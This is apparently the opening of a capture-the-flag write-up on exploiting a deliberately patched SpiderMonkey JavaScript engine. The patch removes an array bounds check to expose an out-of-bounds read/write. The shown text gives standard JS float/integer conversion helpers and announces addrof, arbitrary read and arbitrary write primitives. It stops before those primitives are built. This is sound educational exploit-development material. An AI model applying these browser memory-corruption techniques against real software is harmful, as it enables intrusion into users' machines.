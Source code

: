 Summary - 
 - `GetTotallySafeArrayElement`: The regular `GetArrayElement` function but with the length check removed.
 - `array_oob`: A new function exported to userspace via `Array.oob(?, ?)`
 If a single argument is passed to `array_oob`, it is used as an index to `GetTotallySafeArrayElement`, providing OOB read in the JS array.
 If two arguments are passed, the first is used as the index, and the second is written to the given index of the array, and the written element is returned.

We will start with the standard JS exploitation utility functions:
 
```js
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    // console.log(val)
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function arr2int(a, full) {
    let res = BigInt(0);
    for (var i = 0; i < a.length; i++) {
        res += BigInt(BigInt(a[i]) << BigInt(8*i));
    }
    // SpiderMonkey JS values have their top 11 bits as a tag.
    // If we want a JSValue we must remove these, else we can read
    // the full qword
    if (full) return res;
    return res & 0xffffffffffffn;
}

function int2arr(a) {
    let res = [];
    for (var i = 0; a > 0n; i++) {
        res[i] = a & 0xffn;
        a = a >> 8n;
    }
    return res;

}
```

## Creating Primitives
Our exploit will require 3 primitives - 
 - `addrof` - The ability to retrieve the address of an arbritrary `JSObject`
 - `read` - The ability to read a chosen number of bytes from an arbritrary address
 - `write` - The ability to write a chosen number of bytes to an arbritrary address
 